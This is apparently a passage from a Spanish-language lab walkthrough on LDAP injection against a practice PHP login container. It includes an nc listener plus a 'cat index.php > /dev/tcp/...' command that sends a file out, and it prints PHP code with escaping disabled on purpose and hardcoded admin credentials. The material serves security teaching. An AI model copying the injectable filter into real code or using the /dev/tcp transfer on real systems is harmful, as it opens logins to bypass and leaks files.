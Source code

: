 En el caso anterior, nos brinda el mismo output ya que estamos haciéndolo con un mismo usuario, pero en un rato **crearemos más usuarios** para poder jugar un poco más.

-----

A la hora de **intentar loguearnos en la web** del contenedor, por detrás se esta empleando una **validación** de los datos proporcionados por nosotros, para entenderlo en profundidad iremos al archivo *index.php* del contenedor. 

Algo que se puede hacer si deseamos ver el código representado con colores es esto.
``nc -nlvp 443 | cat -l php`` en una consola aparte y enviarnos desde el contenedor el contenido del *index.php* con el comando ``cat index.php > /dev/tcp/192.168.0.193/443``

```php
<?php

session_start();

//LDAPの接続情報
const LDAP_HOST = "openldap-container";
const LDAP_PORT = 389;
const LDAP_DC = "dc=example,dc=org";
const LDAP_DN = "cn=admin,dc=example,dc=org";
const LDAP_PASS = "admin";

if (isset($_POST["logout"])) {
    session_destroy();
    header('Location: /', true , 301);
    exit;
}

if (isset($_POST["login"])) {
    $userId = $_POST['user_id'];
    $password = $_POST['password'];

    // エスケープ処理
    // $userId = ldap_escape($userId);
    // $password = ldap_escape($password);

    // LDAPに接続
    $ldapConn = ldap_connect(LDAP_HOST, LDAP_PORT);
    if (!$ldapConn) {
        exit('ldap_conn');
    }

    // バインド
    ldap_set_option($ldapConn, LDAP_OPT_PROTOCOL_VERSION, 3);
    $ldapBind = ldap_bind($ldapConn, LDAP_DN,LDAP_PASS);
    if ($ldapBind) {

        // ログイン処理
        $filter = '(&(cn=' . $userId . ')(userPassword=' . $password . '))'; // IDとパスワードのAND条件でフィルタを作成
        $ldapSearch = ldap_search($ldapConn, LDAP_DC, $filter);
        $getEntries = ldap_get_entries($ldapConn, $ldapSearch);
        if ($getEntries['count'] > 0) {
            // 成功
            $_SESSION["USERID"] = $userId;
            header('Location: /', true , 301);
            exit;
        }
    } else {
        // 失敗
    }
}
```